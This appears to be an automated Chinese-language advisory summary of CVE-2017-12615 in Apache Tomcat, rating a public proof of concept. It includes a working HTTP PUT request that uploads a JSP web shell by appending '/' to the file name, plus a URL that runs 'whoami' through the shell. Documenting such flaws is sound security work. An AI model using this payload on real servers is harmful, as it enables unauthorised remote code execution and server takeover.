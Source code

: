 ## CVE-2017-12615 - Apache Tomcat JSP上传远程代码执行

**漏洞编号:** CVE-2017-12615

**漏洞类型:** 远程代码执行

**影响应用:** Apache Tomcat

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** 7.0.0 to 7.0.79

**利用条件:** 运行在Windows上，HTTP PUT方法已启用（readonly初始化参数设置为false）

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2017-12615漏洞允许攻击者通过PUT请求上传恶意的JSP文件到Tomcat服务器，并在服务器上执行任意代码。该漏洞存在于Apache Tomcat 7.0.0到7.0.79版本，并且只有在Tomcat运行在Windows系统，且启用了HTTP PUT方法时才会受到影响（例如，`readonly` 初始化参数设置为 `false`）。

**有效性：**
提供的POC代码是有效的。通过在JSP文件名后附加'/'字符，可以绕过文件扩展名检查，从而成功上传JSP文件。

**投毒风险：**
检查了提供的`README.md`文件，该文件描述了漏洞的利用方法，并提供了利用代码示例。没有发现任何隐藏的、恶意的或具有破坏性的代码。该文件主要是对漏洞的描述和演示，因此，投毒风险为0%。

**利用方式：**
1.  **前提条件：** 目标Tomcat服务器必须运行在Windows上，且HTTP PUT方法已启用。
2.  **上传JSP文件：** 使用PUT请求，将包含恶意代码的JSP文件上传到服务器。关键是文件名需要以`.jsp/`结尾，以绕过文件扩展名检查。例如：

    ```http
    PUT /shell.jsp/
    Host: target-host:port
    Content-Length: [payload length]

    <%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
    ```

3.  **执行代码：** 成功上传JSP文件后，可以通过访问该JSP文件的URL来执行其中的代码。例如，访问`http://target-host:port/shell.jsp?cmd=whoami` 就可以执行`whoami`命令，获取服务器信息。

**项目地址:** [breaktoprotect/CVE-2017-12615](https://github.com/breaktoprotect/CVE-2017-12615)

**漏洞详情:** [CVE-2017-12615](https://nvd.nist.gov/vuln/detail/CVE-2017-12615)